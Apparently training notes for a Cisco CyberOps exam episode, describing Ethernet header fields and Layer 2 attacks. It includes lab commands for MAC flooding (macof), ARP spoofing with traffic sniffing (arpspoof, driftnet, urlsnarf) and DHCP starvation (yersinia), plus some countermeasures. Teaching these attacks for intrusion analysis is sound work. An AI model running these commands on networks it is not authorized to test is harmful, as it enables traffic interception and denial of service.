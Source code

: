 ###Cisco Cybersecurity Operations (Exam 210-255)
============================================================
{FileName}cisco-secops210255-2-2-1-describe_protocol_headers-MMDDYY
{EpisodeName}Describe Protocol Headers Pt.1
{ShowName}Cisco Cybersecurity Operations
{Keywords}Cisco FMC, Wireshark, Cisco IOS Netflow
#### Describe Protocol Headers
* 2.2 Describe the fields in these protocol headers as they
relate to intrusion analysis:
	+ We want to look at Layer 2 (link-layer) header information and understand what attacks occur here.
	+ "What OSI Layers do Filtering, Access Control Lists,
	  Authentication and Application control protect? 
	  Answer, not Layer 2!! 
		- Layer 2 is considered a trusted layer. The 
		  Ethernet Layer header has information about what?
		  Layers 1 and 2. This where ethernet headers come into
		  play.  Remember that there are no fine grain controls
		  at data-link.
		- Many of the attacks rely on lack of authentication at
		  Layer 2 during communications (MITM possible).
	+ Wired attacks at Layer 2: CAM table exhaustion, ARP
	  Spoofing, DHCP Exhaustion, and VLAN hopping.
	+ Wireless attacks at Layer 2: Hidden Node, Deauth, 
	  Fake Access Points.
	+ 2.2.a Ethernet Frame
		- Preamble
			+ Wirehark (not shown)
			+ 7 bytes (56 bit)
			+ Synchronization Bits
			+ Process by NIC
		- Start of Frame (SOF)
			+ 1 byte
		- Destination MAC
			+ 48 bits (6 bytes) reported in hex
			+ 24 bits (OUI) & 24 bits (Serial)
		- Source MAC
			+ 48 bits (6 bytes) rreported in hex
			+ 24 bits (OUT) & 24 bits (Serial)
		- [Frame Type]
			+ Hex Value to indicate upper layer protocol
			  in data field
			+ 0x800 IPv4 Protocol
			+ 0x806 Address Resolution Prootcol ARP
			+ 0x86DD IPv6 Protocol
		- Data
			+ between 46 and 1500 bytes
		- FCS (Frame Check Sequence)
			+ used by the NIC to identify errors during
			  transmission
	+ Example #1 (CAM Table Exhaustion):
``` 
Simple Diagram
Kali Linux Terminal 
Simple Flooding command: macof -i eth1 -n 10
Targeted Floding command: macof -i eth1 -d 192.168.1.1
List and Describe Counter Measures Possible
Port Security
802.1x 
MAC Filtering
``` 
	+ Example #2 (ARP Spoofing):
``` 
Kali Linux setup port forwarding: echo '1' > /proc/sys/net/
ipv4/ip_forward 
arpspoof -i eth0 -t 192.168.8.90 192.168.8.8 
(setup arpspoof from target to kali)
driftnet -i eth0 (Leave window open)--monitoring
urlsnarf -i eth0 (capture website info)
```
	+ Example #3 (DHCP Starvation):
``` 
Setup DHCP on Router
--show ip dhcp server statistics
--show ip dhcp pool
--show ip dhcp bind
Kali Linux Terminal
++yersinia -G (launches yersinia in Graphical mode)
++Click on DHCP Tab
++(on left side) Click Launch Attack
++choose sending DHCP Discover Packet
--show ip dhcp bind
```

[Frame Type]:https://en.wikipedia.org/wiki/EtherType
